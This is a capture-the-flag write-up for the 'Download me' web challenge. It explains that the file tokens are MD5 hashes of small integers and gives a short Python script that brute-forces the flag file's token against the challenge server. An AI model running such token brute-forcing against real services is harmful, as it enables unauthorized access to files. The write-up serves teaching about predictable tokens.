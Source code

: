 # Download me ...

## Problem

The problem simply links the URL to the webpage,

![Webpage](./files/DownloadMeWebpage.png)

## Solution

Clicking on `flag.txt` results in an `Invalid token` error.

Viewing the source code, we can see that the each file has a token associated with it. 

```
download.php?file=file1.txt&token=6f2268bd1d3d3ebaabb04d6b5d099425
download.php?file=file2.txt&token=e6cb2a3c14431b55aa50c06529eaa21b
download.php?file=file3.txt&token=65658fde58ab3c2b6e5132a39fae7cb9
download.php?file=flag.txt&token=
```

The length of each token is 32 characters suggesting it might be an MD5 hash. 

Using [Hashkiller](https://hashkiller.co.uk/Cracker),
```
6f2268bd1d3d3ebaabb04d6b5d099425 MD5 753 or osCommerce 75:3
e6cb2a3c14431b55aa50c06529eaa21b MD5 952 or osCommerce 95:2
65658fde58ab3c2b6e5132a39fae7cb9 MD5 536 or osCommerce 53:6
```

We realize that all the hashes are simply numbers, meaning we can brute force the valid token.

Here is the python script that does that:
```python
import requests
import hashlib

url = 'http://159.89.22.33:25632/download.php?file=flag.txt&token='

for n in range(1000):
	m = hashlib.md5()
	m.update(str(n))
	r = requests.get(url + m.hexdigest())
	if(r.text != 'Invalid token.'):
		print r.text
		break
```

Flag: **AFFCTF{Pr3dic71bl3_t0k3n5_4r3_b4d}**
